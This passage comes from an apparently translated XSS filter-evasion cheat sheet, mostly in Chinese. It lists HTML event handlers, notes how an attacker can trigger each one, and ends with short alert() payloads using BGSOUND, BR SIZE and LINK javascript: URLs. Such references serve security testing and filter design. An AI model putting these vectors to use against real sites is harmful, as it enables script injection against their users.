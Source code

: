 79.  onReset() (用户或攻击者重置表单)
80.  onResize() (用户调整窗口大小，或是攻击者自动触发通过某些代码例如 < SCRIPT>self.resizeTo(500,400);</SCRIPT>)
81.  onResizeEnd() (用户调整窗口大小，或是攻击者自动触发通过某些代码例如 < SCRIPT>self.resizeTo(500,400);</SCRIPT>)
82.  onResizeStart() (用户调整窗口大小，或是攻击者自动触发通过某些代码例如 < SCRIPT>self.resizeTo(500,400);</SCRIPT>)
83.  onResume() (当元素从暂停恢复到激活时触发, 包括 body 元素)
84.  onReverse() (if the element has a repeatCount greater than one, this event fires every time the timeline begins to play backward)
85.  onRowsEnter() (用户或攻击者需要改变数据源中的一行)
86.  onRowExit() (用户或攻击者需要改变数据源中的一行)
87.  onRowDelete() (用户或攻击者需要删除数据源中的一行)
88.  onRowInserted() (用户或攻击者需要向数据源中插入一行)
89.  onScroll() (用户需要滚动, 或是攻击者可以执行 scrollBy() 函数)
90.  onSeek() (媒体播放移动到新位置)
91.  onSelect() (用户需要去选择一些文本 - 攻击者可以自动运行利用某些方法例如 window.document.execCommand("SelectAll");)
92.  onSelectionChange() (用户需要去选择一些文本 - 攻击者可以自动运行利用某些方法例如 window.document.execCommand("SelectAll");)
93.  onSelectStart() (用户需要去选择一些文本 - 攻击者可以自动运行利用某些方法例如 window.document.execCommand("SelectAll");)
94.  onStart() (当 marquee 元素循环开始时触发)
95.  onStop() (用户需要点击停止按钮或是离开网页)
96.  onStorage() (存储区域改变)
97.  onSyncRestored() (user interrupts the element's ability to play its media as defined by the timeline to fire)
98.  onSubmit() (需要攻击者或用户提交表单)
99.  onTimeError() (用户或攻击者需要设置一个时间属性例如 dur 的值为无效的值)
100.  onTrackChange() (用户或攻击者需要改变播放列表的轨迹)
101.  onUndo() (user went backward in undo transaction history)
102.  onUnload() (当用户点击一个链接或是按下回车键或是攻击者触发一个点击事件)
103.  onURLFlip() (this event fires when an Advanced Streaming Format (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag, processes script commands embedded in the ASF file)
104.  seekSegmentTime() (this is a method that locates the specified point on the element's segment time line and begins playing from that point. The segment consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)

## BGSOUND(背景音乐)

```
<BGSOUND SRC="javascript:alert('XSS');">
```

## & JavaScript 包含

```
<BR SIZE="&{alert('XSS')}">
```

## 样式表

```
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```
